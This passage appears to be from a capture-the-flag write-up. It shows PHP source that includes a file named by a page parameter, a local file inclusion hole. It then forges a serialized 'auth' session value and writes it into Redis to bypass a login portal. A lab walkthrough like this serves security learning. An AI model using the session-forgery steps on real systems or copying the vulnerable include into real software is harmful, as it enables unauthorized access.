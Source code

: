 ```bash
<body>
    <div class="flex flex-col h-screen justify-between">
        <?php include("header.php"); ?>
        
        <main class="mb-auto mx-24">
            <?php include($_GET['page'] . ".php"); ?>
        </main>

        <?php include("footer.php"); ?>
    </div>

</body>

</html>
```

Crafted a serialized cookie locally using an interactive PHP shell.

```bash
php -a
Interactive shell

php > echo '"auth|' . serialize(true) . '"';
"auth|b:1;"

php > exit
```

Headed back to Redis and changed the cookie’s value.

```bash
> set "PHPREDIS_SESSION:0vrb3ojds81mapi4d7k3dgqo2c" "auth|b:1;"
OK
> get "PHPREDIS_SESSION:0vrb3ojds81mapi4d7k3dgqo2c"
"auth|b:1;"
```

Successfully bypassed the authentication portal.

<img src="/assets/img/pollution/image 22.png" alt="image 22.png" style="width:800px;">
